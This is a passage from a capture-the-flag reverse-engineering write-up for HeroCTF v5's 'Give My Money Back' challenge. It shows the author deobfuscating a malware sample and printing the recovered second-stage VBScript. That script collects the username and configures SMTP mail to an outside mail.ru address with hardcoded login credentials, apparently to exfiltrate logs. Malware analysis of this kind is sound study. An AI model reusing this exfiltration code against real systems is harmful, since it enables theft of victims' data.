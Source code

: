 ```python
    functionSplitStringsOfNumbers()
```

**Let's run that Python script! It should return the second stage payload!**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:23:19(HKT)]
└> python3 deobfuscate_stage1.py 
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:23:25(HKT)]
└> file stage2.vbs                                                      
stage2.vbs: ASCII text
```

**`stage2.vbs`:**
```vb
on error resume next
Const Desktop = 4
Const MyDocuments = 16
Set S = CreateObject("Wscript.Shell") 

Set FSO = CreateObject("scripting.filesystemobject")
WScript.Sleep(1000 * 30)







strSMTP_Server = "smtp.mail.ru"
strTo = "bmwqia84@mail.ru"
strFrom = "bmwqia84@mail.ru"
strSubject = "AIRDROP"
strBody = "LOG"








Set iMsg=CreateObject("CDO.Message") 

Set iConf=CreateObject("CDO.Configuration")

Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
Set Flds=iConf.Fields 
Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru"
Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 465
Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing")    = 2  
Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1  
Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpusessl")      = true 
Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername")    = "bmwqia84@mail.ru"
Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword")    = "R4CMZ3rVnMFtzz6vzRi1" 



Flds.Update 
iMsg.Configuration=iConf 
iMsg.To=strTo 


```